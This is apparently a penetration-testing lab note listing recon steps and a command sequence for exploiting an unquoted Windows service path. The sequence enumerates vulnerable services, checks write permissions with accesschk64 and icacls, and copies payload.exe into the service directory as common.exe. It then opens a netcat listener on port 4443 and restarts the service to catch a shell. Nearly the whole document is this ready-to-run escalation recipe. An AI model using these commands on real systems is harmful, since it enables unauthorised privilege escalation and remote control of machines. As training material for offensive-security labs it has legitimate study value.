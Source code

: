 (checklist)

- port scan
- version scan
- service scan

COMMANDS:
wmic service get name,pathname,startmode|findstr /i  /v C:\Windows\\

wmic service get name,pathname,startmode  |findstr /i  /v  C:\Windows\\| findstr  /i /v """

sc qc unquotedsvc

C:\Users\user\Desktop\Tools\accesschk64.exe -ucqv user /user unquotedsvc

icacls "C:\Program Files\Unquoted Path Service\Common Files"

icacls "C:\Program Files\Unquoted Path Service"

copy payload.exe "C:\Program Files\Unquoted Path Service\common.exe"

nc -nlvp 4443

net start unquotedsvc

go back to listening terminal
